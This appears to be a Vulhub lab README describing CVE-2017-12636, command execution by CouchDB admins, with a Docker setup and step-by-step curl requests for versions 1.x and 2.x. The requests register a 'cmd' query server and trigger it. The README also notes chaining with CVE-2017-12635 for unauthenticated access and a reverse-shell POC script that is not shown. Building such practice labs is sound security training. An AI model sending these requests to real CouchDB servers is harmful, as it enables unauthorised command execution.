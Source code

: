 # Couchdb Arbitrary Command Execution (CVE-2017-12636)

[中文版本(Chinese version)](README.zh-cn.md)

Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.

CouchDB administrative users can configure the database server via HTTP(S). Some of the configuration options include paths for operating system-level binaries that are subsequently launched by CouchDB. This allows an admin user in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to execute arbitrary shell commands as the CouchDB user, including downloading and executing scripts from the public internet.

Chain [CVE-2017-12635](../CVE-2017-12635) and CVE-2017-12636 to get a unauthenticated remote command execution.

Reference link.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## Vulnerable Environment

API interfaces of Couchdb 2.x and and 1.x are somewhat different, so this vulnerability is exploited in a different way. This environment is about version 1.6.0, if you want to test version 2.1.0, you can use the [CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635).

Start a Couchdb 1.6.0 server.

```
docker compose up -d
```

After the startup is complete, browse ``http://your-ip:5984/`` to see the welcome page of Couchdb.

## Exploit explanation

CVE-2017-12636 is a post-authentication RCE, so if you do not know the target administrator password, you can use [CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635) to add an administrator user first.

### Exploit under 1.x

Execute the following requests in sequence to trigger arbitrary command execution.

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```

Here, `vulhub:vulhub` is the administrator account and password.

The first request is to add a **query_servers** with the name `cmd` and the value `"id >/tmp/success"`, which is the command we are going to execute later.

The second and third requests are to add a database and document, which can be queried only after it is added here.

The fourth request is to do a query in this Database, a **query_servers** named `cmd` that I added in the first step is used, and finally trigger the command execution.

### Exploit under 2.x

The two APIs I used above have been modified in 2.1.0 and need to be explained in detail here.

Couchdb 2.x introduces clustering, browser the `/_membership` to get the node list.

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![](1.png)

As you can see, we have only one node here, with the name `nonode@nohost`.

Then, modify the configuration of node `nonode@nohost` as follows.

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![](2.png)

Then, in the same way as the 1.6.0 exploit:

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id": "770895a97726d5ca6d70a22173005c7b"}'
```

Couchdb 2.x removed `_temp_view`, so we need to add a `_view` in order to trigger the command defined in `query_servers`:

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test", "views":{"woyun":{"map":""} }," language": "cmd"}' -H "Content-Type: application/json"
```

Then commands in `query_servers` will be executed.

## POC script

I wrote a simple POC [exp.py](exp.py), modified the target and command inside the script to your test target, then modified the version to the corresponding Couchdb version (1 or 2), and successfully get the reverse shell:

![](3.png)
